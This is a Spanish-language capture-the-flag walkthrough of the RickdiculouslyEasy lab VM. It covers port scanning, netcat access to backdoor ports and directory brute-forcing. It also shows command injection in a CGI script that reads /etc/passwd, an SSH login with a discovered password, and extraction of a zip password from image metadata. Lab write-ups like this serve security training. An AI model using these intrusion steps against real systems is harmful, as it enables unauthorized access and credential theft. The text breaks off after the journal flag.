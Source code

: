 # Rickdiculously
Desarrollo del CTF Rickdiculously

## 1. Configuración de la VM

- Download de la VM: https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/
- Esta VM tiene por objetivo obtener 130 puntos.


## 2. Escaneo de Puertos

```
Nmap 7.91 scan initiated Tue Apr 27 00:13:09 2021 as: nmap -n -P0 -p- -sC -sV -O -T5 -oA full 192.168.56.106
Nmap scan report for 192.168.56.106
Host is up (0.00036s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt
|_drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.104
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh?
| fingerprint-strings: 
|   NULL: 
|_    Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic x86_64)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp    open  http    Apache httpd 2.4.27 ((Fedora))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.27 (Fedora)
|_http-title: Morty's Website
9090/tcp  open  http    Cockpit web service 161 or earlier
|_http-title: Did not follow redirect to https://192.168.56.106:9090/
13337/tcp open  unknown
| fingerprint-strings: 
|   NULL: 
|_    FLAG:{TheyFoundMyBackDoorMorty}-10Points
22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|   2048 b4:11:56:7f:c0:36:96:7c:d0:99:dd:53:95:22:97:4f (RSA)
|   256 20:67:ed:d9:39:88:f9:ed:0d:af:8c:8e:8a:45:6e:0e (ECDSA)
|_  256 a6:84:fa:0f:df:e0:dc:e2:9a:2d:e7:13:3c:e7:50:a9 (ED25519)
60000/tcp open  unknown
|_drda-info: ERROR
| fingerprint-strings: 
|   NULL, ibm-db2: 
|_    Welcome to Ricks half baked reverse shell...
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick1.jpg" width=80% />

## 3. Enumeración 

## 3.1. Acceso directo a servicios

- Existen puertos sobre los cuales podemos probar accesos por NETCAT

```
┌──(root💀kali)-[~/RICKDICULOUS]
└─# nc 192.168.56.106 60000
Welcome to Ricks half baked reverse shell...
# whoami
root 
# ls
FLAG.txt 
# cat FLAG.txt
FLAG{Flip the pickle Morty!} - 10 Points 
                                                                                                                                          
┌──(root💀kali)-[~/RICKDICULOUS]
└─# nc 192.168.56.106 13337                                                                                                           1 ⨯
FLAG:{TheyFoundMyBackDoorMorty}-10Points
```
<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick2.jpg" width=80% />

## 3.2. Enumeración HTTP

```
┌──(root💀kali)-[~/tools/dirsearch]
└─# python3 dirsearch.py -u http://192.168.56.106/ -t 16 -r -e txt,html,php,asp,aspx,jsp -f -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 
/root/tools/dirsearch/thirdparty/requests/__init__.py:91: RequestsDependencyWarning: urllib3 (1.26.2) or chardet (4.0.0) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: txt, html, php, asp, aspx, jsp | HTTP method: GET | Threads: 16 | Wordlist size: 1133344

Error Log: /root/tools/dirsearch/logs/errors-21-04-28_22-45-16.log

Target: http://192.168.56.106/

Output File: /root/tools/dirsearch/reports/192.168.56.106/_21-04-28_22-45-16.txt

[22:45:16] Starting: 
[22:45:16] 403 -  217B  - /cgi-bin/     (Added to queue)
[22:45:29] 200 -  326B  - /index.html
[22:45:53] 200 -   72KB - /icons/     (Added to queue)
[22:46:09] 200 -  126B  - /robots.txt
[22:47:03] 200 -    1KB - /passwords/     (Added to queue)
[22:47:03] 301 -  240B  - /passwords  ->  http://192.168.56.106/passwords/
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick3.jpg" width=80% />

- Identificamos el archivo robots.txt y archivos CGI.

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick4.jpg" width=80% />

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick5.jpg" width=80% />

- El archivo tracertool.cgi tiene una inyección de comandos y podemos concatenar comandos con el punto y coma (;). Además, el comando CAT no funciona, por eso utilizamos el comando TAIL.

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick6.jpg" width=80% />

- Enumeramos los usuarios del sistema operativo.

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-coredump:x:999:998:systemd Core Dumper:/:/sbin/nologin
systemd-timesync:x:998:997:systemd Time Synchronization:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:997:996:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit-ws:/:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
chrony:x:995:993::/var/lib/chrony:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
```

- En la carpeta /passwords encontramos un flag y una contraseña: winter.

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick7.jpg" width=80% />

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick8.jpg" width=80% />


## 4. Acceso al Sistema

### 4.1. Acceso por SSH

- Probamos la contraseña obtenida en los usuarios del sistema enumerados. Con el usuario Summer:winter, podemos ingresar.

```                                                                                                                                           
┌──(root💀kali)-[/home/kali]
└─# ssh -p 22222 Summer@192.168.56.106
Summer@192.168.56.106's password: 
Last login: Thu Apr 29 00:59:36 2021 from 192.168.56.104
[Summer@localhost ~]$ whoami
Summer
[Summer@localhost ~]$ pwd
/home/Summer
[Summer@localhost ~]$ 
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick9.jpg" width=80% />

### 4.2. Enumeración de información en la carpeta /home

```
[Summer@localhost home]$ ls -laR /home
/home:
total 0
drwxr-xr-x.  5 root        root         52 Aug 18  2017 .
dr-xr-xr-x. 17 root        root        236 Aug 18  2017 ..
drwxr-xr-x.  2 Morty       Morty       131 Sep 15  2017 Morty
drwxr-xr-x.  4 RickSanchez RickSanchez 113 Sep 21  2017 RickSanchez
drwx------.  2 Summer      Summer      111 Apr 29 02:10 Summer

/home/Morty:
total 64
drwxr-xr-x. 2 Morty Morty   131 Sep 15  2017 .
drwxr-xr-x. 5 root  root     52 Aug 18  2017 ..
-rw-------. 1 Morty Morty     1 Sep 15  2017 .bash_history
-rw-r--r--. 1 Morty Morty    18 May 30  2017 .bash_logout
-rw-r--r--. 1 Morty Morty   193 May 30  2017 .bash_profile
-rw-r--r--. 1 Morty Morty   231 May 30  2017 .bashrc
-rw-r--r--. 1 root  root    414 Aug 22  2017 journal.txt.zip
-rw-r--r--. 1 root  root  43145 Aug 22  2017 Safe_Password.jpg

/home/RickSanchez:
total 12
drwxr-xr-x. 4 RickSanchez RickSanchez 113 Sep 21  2017 .
drwxr-xr-x. 5 root        root         52 Aug 18  2017 ..
-rw-r--r--. 1 RickSanchez RickSanchez  18 May 30  2017 .bash_logout
-rw-r--r--. 1 RickSanchez RickSanchez 193 May 30  2017 .bash_profile
-rw-r--r--. 1 RickSanchez RickSanchez 231 May 30  2017 .bashrc
drwxr-xr-x. 2 RickSanchez RickSanchez  18 Sep 21  2017 RICKS_SAFE
drwxrwxr-x. 2 RickSanchez RickSanchez  26 Aug 18  2017 ThisDoesntContainAnyFlags

/home/RickSanchez/RICKS_SAFE:
total 12
drwxr-xr-x. 2 RickSanchez RickSanchez   18 Sep 21  2017 .
drwxr-xr-x. 4 RickSanchez RickSanchez  113 Sep 21  2017 ..
-rwxr--r--. 1 RickSanchez RickSanchez 8704 Sep 21  2017 safe

/home/RickSanchez/ThisDoesntContainAnyFlags:
total 4
drwxrwxr-x. 2 RickSanchez RickSanchez  26 Aug 18  2017 .
drwxr-xr-x. 4 RickSanchez RickSanchez 113 Sep 21  2017 ..
-rw-rw-r--. 1 RickSanchez RickSanchez  95 Aug 18  2017 NotAFlag.txt

/home/Summer:
total 32
drwx------. 2 Summer Summer  111 Apr 29 02:10 .
drwxr-xr-x. 5 root   root     52 Aug 18  2017 ..
-rw-------. 1 Summer Summer 1765 Apr 29 03:21 .bash_history
-rw-r--r--. 1 Summer Summer   18 May 30  2017 .bash_logout
-rw-r--r--. 1 Summer Summer  193 May 30  2017 .bash_profile
-rw-r--r--. 1 Summer Summer  231 May 30  2017 .bashrc
-rw-rw-r--. 1 Summer Summer   48 Aug 22  2017 FLAG.txt
-rwxr--r--. 1 Summer Summer 8704 Apr 29 02:10 safe
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick10.jpg" width=80% />

- Me llama la atención los archivos: journal.txt.zip y Safe_Password.jpg. Los descargamos y analizamos.

```
┌──(root💀kali)-[~/RICKDICULOUS]
└─# wget http://192.168.56.106:8080/journal.txt.zip
--2021-04-28 23:10:41--  http://192.168.56.106:8080/journal.txt.zip
Connecting to 192.168.56.106:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 414 [application/zip]
Saving to: ‘journal.txt.zip’

journal.txt.zip                    100%[==============================================================>]     414  --.-KB/s    in 0s      

2021-04-28 23:10:41 (56.2 MB/s) - ‘journal.txt.zip’ saved [414/414]

                                                                                                                                          
┌──(root💀kali)-[~/RICKDICULOUS]
└─# wget http://192.168.56.106:8080/Safe_Password.jpg
--2021-04-28 23:10:51--  http://192.168.56.106:8080/Safe_Password.jpg
Connecting to 192.168.56.106:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43145 (42K) [image/jpeg]
Saving to: ‘Safe_Password.jpg’

Safe_Password.jpg                  100%[==============================================================>]  42.13K  --.-KB/s    in 0s 
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick11.jpg" width=80% />

- La imagen contiene un mensaje escondido. Vamos analizarlo.

```
┌──(root💀kali)-[~/RICKDICULOUS]
└─# strings Safe_Password.jpg| more
JFIF
Exif
8 The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek
8BIM
8BIM
$3br
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
	#3R
&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick12.jpg" width=80% />

- Descomprimimos el archivo y colocamos la contraseña obtenida: Meeseek

```
┌──(root💀kali)-[~/RICKDICULOUS]
└─# unzip journal.txt.zip   
Archive:  journal.txt.zip
[journal.txt.zip] journal.txt password: 
  inflating: journal.txt             
                                                                                                                                          
┌──(root💀kali)-[~/RICKDICULOUS]
└─# ls
autorecon  FLAG.txt  full.gnmap  full.nmap  full.xml  journal.txt  journal.txt.zip  live.txt  safe  Safe_Password.jpg  users.txt
                                                                                                                                          
┌──(root💀kali)-[~/RICKDICULOUS]
└─# cat journal.txt
Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

Anyway. Here it is:

FLAG: {131333} - 20 Points 
```

<img src="https://github.com/El-Palomo/Rickdiculously/blob/main/rick13.jpg" width=80% />

- 






